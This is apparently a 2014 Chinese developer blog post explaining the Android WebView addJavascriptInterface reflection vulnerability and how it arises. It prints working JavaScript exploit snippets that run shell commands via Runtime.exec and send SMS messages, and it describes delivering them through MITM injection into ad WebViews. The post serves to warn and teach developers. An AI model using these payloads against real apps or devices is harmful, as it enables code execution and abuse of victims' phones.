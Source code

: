 Title: 小心Android中的JavaScriptInterface 
Date: 2014-04-14 13:46:46
Tags: android, hack
Toc: no

去年的某一天，收到客户的反馈说我们的产品在他的手机上不工作。
看了一下日志发现是WebView中JavaScript调用的某个Java方法找不到，通过报错信息搜索后得知：

>Caution: If you've set your targetSdkVersion to 17 or higher, you must add the @JavascriptInterface annotation to any method that you want available your web page code (the method must also be public). If you do not provide the annotation, then the method will not accessible by your web page when running on Android 4.2 or higher.

### 问题
原来是API Level 17后，只会把带有@JavaScriptInterface的方法暴露给JavaScript，因为我的方法都没加这个Annotation，自然就无法调用了。

>Annotation that allows exposing methods to JavaScript. Starting from API level JELLY_BEAN_MR1 and above, only methods explicitly marked with this annotation are available to the Javascript code. See addJavascriptInterface(Object, String) for more information about it.

再看addJavaScriptInterface方法的文档：
>IMPORTANT:
This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLY_BEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content.

大概是说如果你访问了包括恶意内容的页面，攻击者会得到与应用相同的权限，通过反射来做一些你意想不到的事情。
反射？听起来很高级，到底有多危险？

### 原理
因为Java中所有的类都继承自java.lang.Object，而Object类中有一个方法是getClass()，拿到Class后就可以forName加载任意Class进行反射了。
能做什么呢？不妨来研究下。

### 应用

* 执行任意命令：

```JavaScript
function execute(cmd){
     return window.jsInterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"Hello Android!\” > /mnt/sdcard/test.txt']);
```

* 发送短信：

```
var smsManager = window.jsInterface.getClass().forName('android.telephony.SmsManager').getMethod('getDefault', null).invoke(null, null);
smsManager.sendTextMessage('133xxxxxxxx’, null, 'hello', null, null);
```

当然，攻击成功的前提是你的应用具有相应权限，比如上例中需要`WRITE_EXTERNAL_STORAGE`和`SEND_SMS`的权限。

### 扩展
这个漏洞要得到利用，你既要控制web内容，又需要应用本身具有相应权限，看起来没什么大不了的。真的是这样吗？   
很多免费应用都会集成广告平台SDK以在应用中显示广告条增加收入。这个广告条通常是用WebView实现的，而且拥有比较多的权限。如果恶意攻击者使用[dSploit](http://dsploit.net/)发起MITM攻击，篡改服务器返回的内容，插入恶意JavaScript代码，便可以轻易操纵你的手机。

往往这里一个小漏洞，那里一个小漏洞，两个小漏洞结合起来利用就能达到意想不到的效果。
作为开发者，我们要关注开发中的任何一个细节，尽量避免给用户带来威胁。   

---
文中代码：[Demo](https://github.com/hkliya/JavascriptInterfaceDemo)
参考资料：

* [WebView addJavascriptInterface Remote Code Execution](https://labs.mwrinfosecurity.com/advisories/2013/09/24/webview-addjavascriptinterface-remote-code-execution/)
* [addJavaScriptInterface.py](https://github.com/mwrlabs/drozer/blob/bcadf5c3fd08c4becf84ed34302a41d7b5e9db63/src/drozer/modules/exploit/mitm/addJavaScriptInterface.py)